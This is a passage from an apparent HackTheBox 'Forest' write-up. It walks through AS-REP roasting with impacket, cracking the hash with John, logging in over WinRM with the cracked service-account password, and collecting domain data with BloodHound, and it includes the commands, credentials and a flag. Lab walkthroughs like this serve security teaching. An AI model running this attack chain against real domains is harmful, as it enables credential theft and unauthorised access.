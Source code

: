 ![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739093329319/0836e584-79cf-4f7b-b5b3-59c0203ae8fa.png align="center")

Now, we have the usernames and found that Kerberos was open on the machine but we haven’t got any passwords yet. So, let’s perform `AS-Reproasing` an attack to see if any user accounts have Kerberos pre-authentication disabled which will help us steal the password hash.

```bash
impacket-GetNPUsers htb.local/ -usersfile users.txt -request -outputfile hashes.asreproast -dc-ip 10.129.136.21
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739093903988/ef7259bc-56a7-4d1f-b3b8-70342c45cfc3.png align="center")

And we got the hash for the `svc-alfresco` which is the service account. Let’s crack this hash using John.

```bash
john --wordlist=/usr/share/eaphammer/wordlists/rockyou.txt hashes.asreproast
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739094108182/90484b8a-0525-43ae-b0a1-486a5fa744ad.png align="center")

We got the password `s3rvice`. Now, from the scan, we know that it has `port 5985` open which is for Windows Remote Management (WinRM). So, let’s use these creds and get access to the system.

```bash
evil-winrm -i 10.129.136.21 -u svc-alfresco -p 's3rvice'
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739094340316/2672a35f-d919-412e-8cd4-470bfc588d2f.png align="center")

We’re in! Let’s grab our first flag.

```bash
type users.txt
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739094406565/ecdf5ff7-420c-4cfd-a304-8fc21ad3fb28.png align="center")

Flag: ***09d47f6a78e10a1e8b605ad4b0a0419d***

Let’s escalate our privileges for root now.

Now, that we have a valid user account let’s try to search for a path to the DC for that we will use a Bloodhound ingestor to collect the info about our target domain.

```bash
bloodhound-python -u 'svc-alfresco' -p 's3rvice' -d htb.local -dc FOREST.htb.local -c all -ns 10.129.136.21
```

![](https://cdn.hashnode.com/res/hashnode/image/upload/v1739096189593/e35e47ee-154f-43aa-8437-361a8be1a02a.png align="center")

Now let's compress our JSON file into a zip and then let's use Bloodhound to see the data.

```bash
mv *.json /home/kali/HTB/boxes/Forest/bloodhound
```
